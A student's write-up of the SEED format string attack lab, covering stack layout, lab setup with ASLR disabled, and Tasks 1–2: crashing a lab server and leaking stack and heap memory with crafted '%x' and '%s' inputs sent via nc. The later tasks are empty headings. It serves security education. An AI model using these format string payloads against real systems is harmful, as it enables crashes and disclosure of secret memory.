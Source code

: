 # Format String Attack Lab
- the `printf()` function in C is used to print out a string according to a format, its first argument is called *format* string, the format string uses placeholders marked by the `%` character, there are also other functions that use format string, `sprintf()`, `fprintf()`, `scanf()`
- some programs allow users to provide the entire or part of the contents in a format string, if such contents are not sanitized, attacker can use this opportunity to get the program to run arbitrary code, this problem is called **format string vulnerability**

- topics
    - format string vulnerability
    - code injection
    - stack layout
    - shellcode
    - reverse shell

- lab environment: `SEED Ubuntu 20.04 VM`

- the stack layout when call `printf("a=%d, b=%d", a, b)`
    ```
    High Memory Addresses
    |          +--------------------------+     
    |          |           ...            |
    |          +--------------------------+
    |          |            b             |
    |          |--------------------------| 
    |          |            a             |
    |          |--------------------------| 
    |          | address of format string |
    |          |--------------------------|
    |          |      return address      |
    |          |--------------------------|
    |          |     previous ebp/rbp     |
    |          |--------------------------|
    |          |           ...            |    
    |          +--------------------------+
    |          |       Unused Space       |
    |          +--------------------------+
    Low Memory Addresses
    ```
    - if we don't provide enough parameters, e.g., `printf("a=%d, b=%d", a)`, it will fetch the content from the position where `b` is supposed to be

## Setup
- turn off Address Space Layout Randomization:`sudo sysctl -w kernel.randomize_va_space=0` 
- compile server code (in the directory `Labsetup/server-code`)
    ```
    $ make
    [here will be a warning message]
    $ make install
    ```
- the warning message is generated by a countermeasure implemented in `gcc`, we can ignore it for now
- `-z execstack` option should be used in the compilation, for simplicity, non-executable stack countermeasure can be defeated using return-to-libc, there is a separate lab for return-to-libc

## Task 1: Crashing the Program
- target server `10.9.0.5`
- send a message to the server, we can see some information printed by the target container
    ```
    $ echo hello | nc 10.9.0.5 9090
    (Press Ctrl+C)
    ```
    ```
    server-10.9.0.5 | Got a connection from 10.9.0.1
    server-10.9.0.5 | Starting format
    server-10.9.0.5 | The input buffer's address:    0xffffd240
    server-10.9.0.5 | The secret message's address:  0x080b4008
    server-10.9.0.5 | The target variable's address: 0x080e5068
    server-10.9.0.5 | Waiting for user input ......
    server-10.9.0.5 | Received 6 bytes.
    server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd168
    server-10.9.0.5 | The target variable's value (before): 0x11223344
    server-10.9.0.5 | hello
    server-10.9.0.5 | The target variable's value (after):  0x11223344
    server-10.9.0.5 | (^_^)(^_^) Returned properly (^_^)(^_^)
    ```
- our goal for this task is to provide an input that makes the program crash (i.e., "Returned properly" is not printed out)
    - try `echo %s | nc 10.9.0.5 9090`
        ```
        ...
        server-10.9.0.5 | The target variable's value (before): 0x11223344
        (No more info printed out)
        ```
        - the program is crashed
## Task 2: Printing Out the Server Program's Memory
- target server `10.9.0.5`
- the objective of this task is to get the server to print out some data from its memory, the data will be printed out on the server side, so the attack cannot see it, but the technique used in this task will be essential for the subsequent tasks

### Task 2.A: Stack Data
- how many `%x` format specifiers do you need to get the program to print out the first four bytes of your input
    - we construct an input `"******** %s %s %s ... %s %x"`, to make it easier to find the first 4 bytes in the printout info of the server container, make the first 4 bytes `0x77777777`, construct the payload using a python program `task2A_payload.py`
    - the stack layout when calling `printf(msg)`
            ```
            High Memory Addresses
            |          +--------------------------+     
            |          |           ...            |
            |          +--------------------------+
            |          |        0x77777777        |
            |          |--------------------------| <---- address of input buffer 
            |          |           ...            |
            |          |--------------------------| 
            |          | address of input buffer  |
            |          |--------------------------| <---- first argument of printf()
            |          |      return address      |
            |          |--------------------------|
            |          |     previous ebp/rbp     |
            |          |--------------------------|
            |          |           ...            |    
            |          +--------------------------+
            |          |       Unused Space       |
            |          +--------------------------+
            Low Memory Addresses
            ```
    - when executing `printf()`, it will fetch a number of hexadecimal numbers from higher addresses, and if there is enough `%x` in the format string, it will finally fetch and print out the first 4 bytes in the input buffer, `0x77777777`
    - from the information printed out by the server, we can know the address of input buffer is `0xffffd240`, the frame pointer when in `myprintf()` is `0xffffd168`, so there will be **approximately** `216` bytes before reaching first 4 bytes of our input, each `%x` prints out 4 bytes, so the number of `%x` is around `54`, the precise number can be determined through experimentation, in my case, the number is `64`, and I can get the following output from the server (to make the output looks better, I acutally used `"%.8x"` in the payload)
        ```
        server-10.9.0.5 | wwww11223344 00001000 08049db5 080e5320 080e61c0 ffffd240 ffffd168 080e62d4 080e5000 ffffd208 08049f7e ffffd240 00000000 00000064 08049f47 080e5320 000005dc 000005dc ffffd240 ffffd240 080e9720 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 44371700 080e5000 080e5000 ffffd828 08049eff ffffd240 000005dc 000005dc 080e5320 00000000 00000000 00000000 ffffd8f4 00000000 00000000 00000000 000005dc 77777777 The target variable's value (after):  0x11223344
        server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
        ```

### Task 2.B: Heap Data
- there is a secret message (a string) stored in the heap area, and the server prints out its address, our objective is to print out this secrete message
    - te address of the secret message is `0x080b4008`, we need to place the address (in the binary form) of the secret message in the format string, if we still use `%x`, the container will only print out the address itself, not the content in that address, as the secret message is a string, use `%s`
    - in task `2.A`, we have already figured out the 64th placeholder specifier is for the first 4 bytes of our input, set this `%x` to `%s`
    - the output
        ```
        server-10.9.0.5 | wwww11223344 00001000 08049db5 080e5320 080e61c0 ffffd240 ffffd168 080e62d4 080e5000 ffffd208 08049f7e ffffd240 00000000 00000064 08049f47 080e5320 000005dc 000005dc ffffd240 ffffd240 080e9720 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 00000000 44371700 080e5000 080e5000 ffffd828 08049eff ffffd240 000005dc 000005dc 080e5320 00000000 00000000 00000000 ffffd8f4 00000000 00000000 00000000 000005dc A secret message
        server-10.9.0.5 | The target variable's value (after):  0x11223344
        server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
        ```

## Task 3: Modifying the Server Program's Memory

## Task 4: Inject Malicious Code into the Server Program

## Task 5: Attacking the 64-bit Server Program

## Task 6: Fixing the Problem